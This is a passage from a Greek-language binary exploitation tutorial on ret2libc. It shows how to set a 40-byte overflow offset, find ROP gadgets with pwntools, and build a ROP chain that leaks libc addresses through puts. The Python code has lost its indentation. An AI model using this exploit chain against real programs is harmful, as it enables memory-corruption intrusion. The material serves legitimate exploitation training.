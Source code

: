 ![](<../../../../../.gitbook/assets/image (140).png>)

Αφού βρείτε την απόσταση (σε αυτή την περίπτωση 40) αλλάξτε τη μεταβλητή OFFSET μέσα στο πρότυπο χρησιμοποιώντας αυτή την τιμή.\
`OFFSET = "A" * 40`

Ένας άλλος τρόπος θα ήταν να χρησιμοποιήσετε: `pattern create 1000` -- _εκτελέστε μέχρι το ret_ -- `pattern seach $rsp` από το GEF.

## 2- Εύρεση Gadgets

Τώρα πρέπει να βρούμε ROP gadgets μέσα στο δυαδικό αρχείο. Αυτά τα ROP gadgets θα είναι χρήσιμα για να καλέσουμε το `puts` για να βρούμε τη **libc** που χρησιμοποιείται, και αργότερα για να **εκκινήσουμε την τελική εκμετάλλευση**.
```python
PUTS_PLT = elf.plt['puts'] #PUTS_PLT = elf.symbols["puts"] # This is also valid to call puts
MAIN_PLT = elf.symbols['main']
POP_RDI = (rop.find_gadget(['pop rdi', 'ret']))[0] #Same as ROPgadget --binary vuln | grep "pop rdi"
RET = (rop.find_gadget(['ret']))[0]

log.info("Main start: " + hex(MAIN_PLT))
log.info("Puts plt: " + hex(PUTS_PLT))
log.info("pop rdi; ret  gadget: " + hex(POP_RDI))
```
Το `PUTS_PLT` είναι απαραίτητο για να καλέσετε τη **συνάρτηση puts**.\
Το `MAIN_PLT` είναι απαραίτητο για να καλέσετε ξανά τη **κύρια συνάρτηση** μετά από μία αλληλεπίδραση για να **εκμεταλλευτείτε** την υπερχείλιση **ξανά** (άπειροι γύροι εκμετάλλευσης). **Χρησιμοποιείται στο τέλος κάθε ROP για να καλέσει ξανά το πρόγραμμα**.\
Το **POP\_RDI** είναι απαραίτητο για να **περάσετε** μια **παράμετρο** στη καλούμενη συνάρτηση.

Σε αυτό το βήμα δεν χρειάζεται να εκτελέσετε τίποτα καθώς όλα θα βρεθούν από το pwntools κατά την εκτέλεση.

## 3- Εύρεση βιβλιοθήκης libc

Τώρα είναι η ώρα να βρούμε ποια έκδοση της **βιβλιοθήκης libc** χρησιμοποιείται. Για να το κάνουμε αυτό, θα **διαρρεύσουμε** τη **διεύθυνση** στη μνήμη της **συνάρτησης** `puts` και στη συνέχεια θα **αναζητήσουμε** σε ποια **έκδοση βιβλιοθήκης** βρίσκεται η έκδοση του puts σε αυτή τη διεύθυνση.
```python
def get_addr(func_name):
FUNC_GOT = elf.got[func_name]
log.info(func_name + " GOT @ " + hex(FUNC_GOT))
# Create rop chain
rop1 = OFFSET + p64(POP_RDI) + p64(FUNC_GOT) + p64(PUTS_PLT) + p64(MAIN_PLT)

#Send our rop-chain payload
#p.sendlineafter("dah?", rop1) #Interesting to send in a specific moment
print(p.clean()) # clean socket buffer (read all and print)
p.sendline(rop1)

#Parse leaked address
recieved = p.recvline().strip()
leak = u64(recieved.ljust(8, "\x00"))
log.info("Leaked libc address,  "+func_name+": "+ hex(leak))
#If not libc yet, stop here
if libc != "":
libc.address = leak - libc.symbols[func_name] #Save libc base
log.info("libc base @ %s" % hex(libc.address))

return hex(leak)
```